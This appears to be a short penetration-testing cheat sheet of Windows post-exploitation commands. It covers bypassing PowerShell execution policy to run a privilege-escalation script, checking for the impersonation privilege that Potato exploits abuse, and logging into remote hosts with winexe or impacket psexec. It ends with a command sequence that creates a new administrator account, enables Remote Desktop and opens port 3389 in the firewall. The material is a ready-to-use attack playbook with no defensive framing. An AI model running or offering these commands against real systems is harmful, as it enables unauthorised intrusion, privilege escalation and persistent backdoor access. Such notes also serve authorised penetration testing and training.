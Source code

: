 # Execute Powershell Scripts From cmd.exe

```
powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Sherlock.ps1}"
```

# Privileges

Check privileges and look for `SeImpersonatePrivilege` --> Potato exploits

```
whoami /priv
```
For x86: compile exploits first

# Connect to Windows Host as Specific User

```
winexe -U username%password //10.11.1.73 cmd.exe
```

Or with impacket `psexec.py`:

```
./psexec.py alice:<password>@<IP> cmd.exe
```

# Add Admin User and Enable RDP

In case of an error, there is a possibility of Password Complexity set on the Remote Machine, try a complex password.
```
C:\WINDOWS\system32>net user thunder password /add && net localgroup "Remote Desktop users" thunder /add && net localgroup Administrators thunder /add
C:\WINDOWS\system32>reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
C:\WINDOWS\system32>netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
```